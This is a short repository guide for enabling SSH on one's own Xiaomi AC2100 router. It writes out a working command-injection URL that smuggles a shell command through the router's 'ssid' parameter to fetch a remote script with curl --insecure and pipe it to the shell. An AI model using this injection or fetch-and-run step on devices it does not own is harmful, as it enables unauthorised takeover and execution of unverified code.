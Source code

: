 # Enable SSH access to Xiaomi AC2100 router

The factory firmware of the router is a modified OpenWRT and, as such, the built-in sshd (Dropbear) can be enabled on it.

1. Log in to your router in its web interface, default IP is 192.168.31.1
2. Take a note of the security token (\<STOK\>)
3. Use this token, replacing \<STOK\> in the URL below, to build the final URL:

`http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev%3Fbssid%3Dxiaomi%26user_id%3Dxiaomi%26ssid%3D-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2Fvargazol%2Fxiaomi-ac2100-ssh%2Fmain%2Funlock_ssh.sh%20%7C%20ash%0A%0A`

If the command is injected and the script executed correctly, you will receive a **{"code":0}** response and the router will reboot.

Now you can connect to the router with ssh by executing `ssh root@192.168.31.1` in your terminal. The default password is _admin_. Don't forget to change it by executing "passwd" afterwards.
